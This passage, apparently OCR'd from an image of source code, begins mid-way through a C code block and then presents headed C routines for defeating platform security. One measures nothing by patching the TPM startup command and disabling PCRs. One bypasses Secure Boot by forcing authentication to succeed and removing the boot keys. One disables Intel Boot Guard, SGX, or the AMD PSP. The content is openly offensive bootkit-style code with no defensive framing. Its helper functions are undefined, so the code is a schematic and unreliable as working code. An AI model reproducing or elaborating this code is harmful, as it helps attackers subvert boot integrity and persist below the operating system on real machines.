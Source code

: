 ```c
            break;
    }
}
```

## TPM Bypass Module

```c
// Bypass TPM measurements and secure boot checks
void DisableTPMChecks() {
    // Find and patch TPM command buffer
    uint8_t* tpmBuffer = FindTPMBuffer();
    
    // Replace TPM_Startup command
    PatchTPMCommand(tpmBuffer, TPM_ORD_Startup, NOP_SEQUENCE);
    
    // Disable PCR updates
    for(int i = 0; i < 24; i++) {
        DisablePCR(i);
    }
}
```

## Secure Boot Bypass

```c
// Install pre-boot hook to bypass secure boot
void BypassSecureBoot() {
    // Find EFI Security Protocol
    EFI_SECURITY_PROTOCOL* security = GetSecurityProtocol();
    
    // Replace verification function
    security->FileAuthenticationState = AlwaysReturnSuccess;
    
    // Clear boot keys
    RemoveSecureBootKeys();
}
```

## Hardware Security Disable

```c
// Disable hardware security features
void DisableHardwareSecurity() {
    if(IsIntelCPU()) {
        // Disable Intel Boot Guard
        uint64_t* bootGuardRegs = FindBootGuardRegisters();
        PatchBootGuardRegisters(bootGuardRegs);
        
        // Disable SGX
        DisableSGXRegisters();
    } else {
        // Disable AMD PSP
        DisablePSPFirmware();
        
        // Patch PSP mailbox
        PatchPSPMailbox();
    }
}
```
